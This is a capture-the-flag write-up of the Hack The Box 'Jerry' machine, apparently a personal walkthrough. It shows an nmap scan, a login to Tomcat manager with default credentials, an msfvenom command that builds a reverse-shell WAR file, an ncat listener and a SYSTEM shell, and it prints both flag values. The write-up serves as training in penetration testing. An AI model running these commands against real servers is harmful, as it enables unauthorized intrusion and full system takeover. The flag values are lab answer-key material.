




Jerry
Service discovery:
First, I fired up HaGashash in order to gain some information about which host to attack and what interesting services run there. (https://github.com/Gandosha/HaGashash).
[GandoPC ~]# go run go/src/github.com/Gandosha/HaGashash/main.go -interface=tun0 -project=Jerry -host=10.10.10.95 <-=|HaGashash by Gandosha|=-> [+] nmap executable is in '/usr/bin/nmap' [+] ifconfig executable is in '/usr/bin/ifconfig' [!] Dependencies check is completed successfully. [!] Starting to perform a single host scan. [+] Directory created at: /HaGashash_Projects/Jerry/10.10.10.95. [!] Starting to scan 10.10.10.95 for UDP interesting stuff. [!] Starting to scan 10.10.10.95 for TCP interesting stuff. [+] Nmap's TCP script scanning on 10.10.10.95 is completed successfully. [+] Nmap's UDP script scanning on 10.10.10.95 is completed successfully. [+] Summary file for 10.10.10.95 is ready. Nmap scan report for 10.10.10.95 Host is up, received user-set (0.11s latency). Scanned at 2018-11-02 17:42:30 IST for 234s Not shown: 65534 filtered ports Reason: 65534 no-responses PORT STATE SERVICE REASON VERSION 8080/tcp open http syn-ack ttl 127 Apache Tomcat/Coyote JSP engine 1.1 |_http-favicon: Apache Tomcat | http-methods: |_ Supported Methods: GET HEAD POST OPTIONS |_http-open-proxy: Proxy might be redirecting requests |_http-server-header: Apache-Coyote/1.1 |_http-title: Apache Tomcat/7.0.88 Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port Device type: general purpose Running (JUST GUESSING): Microsoft Windows 2012|7|2008|2016|Vista (91%) OS CPE: cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_7::-:professional cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 OS fingerprint not ideal because: Missing a closed TCP port so results incomplete Aggressive OS guesses: Microsoft Windows Server 2012 or Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 (90%), Microsoft Windows 7 Professional (87%), Microsoft Windows Server 2008 R2 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2016 (85%), Microsoft Windows 7 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%) No exact OS matches for host (test conditions non-ideal). TCP/IP fingerprint: SCAN(V=7.70%E=4%D=11/2%OT=8080%CT=%CU=%PV=Y%DS=2%DC=T%G=N%TM=5BDC7150%P=x86_64-unknown-linux-gnu) SEQ(SP=FF%GCD=1%ISR=105%TI=I%II=I%SS=S%TS=7) OPS(O1=M54DNW8ST11%O2=M54DNW8ST11%O3=M54DNW8NNT11%O4=M54DNW8ST11%O5=M54DNW8ST11%O6=M54DST11) WIN(W1=2000%W2=2000%W3=2000%W4=2000%W5=2000%W6=2000) ECN(R=Y%DF=Y%TG=80%W=2000%O=M54DNW8NNS%CC=Y%Q=) T1(R=Y%DF=Y%TG=80%S=O%A=S+%F=AS%RD=0%Q=) T2(R=N) T3(R=N) T4(R=N) U1(R=N) IE(R=Y%DFI=N%TG=80%CD=Z) Uptime guess: 0.010 days (since Fri Nov 2 17:32:28 2018) Network Distance: 2 hops TCP Sequence Prediction: Difficulty=255 (Good luck!) IP ID Sequence Generation: Incremental TRACEROUTE (using port 8080/tcp) HOP RTT ADDRESS 1 114.55 ms 10.10.12.1 2 114.57 ms 10.10.10.95 Read data files from: /usr/bin/../share/nmap OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . # Nmap done at Fri Nov 2 17:46:24 2018 -- 1 IP address (1 host up) scanned in 234.78 seconds
Port 8080 check:
Attempt to access via http port 8080:
I checked for default credentials in Tomcat 7 (U:tomcat,P:s3cret):
I got in.
The next step was to upload a .war webshell.
Creation of reverse .war:
[gandosha@GandoPC 10.10.10.95]$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.221 LPORT=443 -f war > /tmp/shell.war Payload size: 1091 bytes Final size of war file: 1091 bytes
Webshell upload:
By accessing my .war file, I got a reverse shell and afterwards the flags too:
[gandosha@GandoPC 10.10.10.95]$ sudo ncat -lvnp 443 Ncat: Version 7.70 ( https://nmap.org/ncat ) Ncat: Listening on :::443 Ncat: Listening on 0.0.0.0:443 Ncat: Connection from 10.10.10.95. Ncat: Connection from 10.10.10.95:49674. Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All rights reserved. C:\apache-tomcat-7.0.88>whoami whoami nt authority\system C:\>dir /s "Desktop" dir /s "Desktop" Volume in drive C has no label. Volume Serial Number is FC2B-E489 Directory of C:\Users\Administrator 06/19/2018 06:09 AMDesktop 0 File(s) 0 bytes Directory of C:\Users\Default 08/22/2013 05:39 PM Desktop 0 File(s) 0 bytes Directory of C:\Windows\ServiceProfiles\LocalService 08/22/2013 04:48 PM Desktop 0 File(s) 0 bytes Directory of C:\Windows\ServiceProfiles\NetworkService 08/22/2013 04:48 PM Desktop 0 File(s) 0 bytes Total Files Listed: 0 File(s) 0 bytes 4 Dir(s) 27,594,915,840 bytes free C:\>dir "C:\Users\Administrator\Desktop" dir "C:\Users\Administrator\Desktop" Volume in drive C has no label. Volume Serial Number is FC2B-E489 Directory of C:\Users\Administrator\Desktop 06/19/2018 06:09 AM . 06/19/2018 06:09 AM .. 06/19/2018 06:09 AM flags 0 File(s) 0 bytes 3 Dir(s) 27,594,903,552 bytes free C:\>dir "C:\Users\Administrator\Desktop\flags" dir "C:\Users\Administrator\Desktop\flags" Volume in drive C has no label. Volume Serial Number is FC2B-E489 Directory of C:\Users\Administrator\Desktop\flags 06/19/2018 06:09 AM . 06/19/2018 06:09 AM .. 06/19/2018 06:11 AM 88 2 for the price of 1.txt 1 File(s) 88 bytes 2 Dir(s) 27,594,903,552 bytes free C:\>type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt" type "C:\Users\Administrator\Desktop\flags\2 for the price of 1.txt" user.txt 7004dbcef0f854e0fb401875f26ebd00 root.txt 04a8b36e1545a455393d067e772fe90e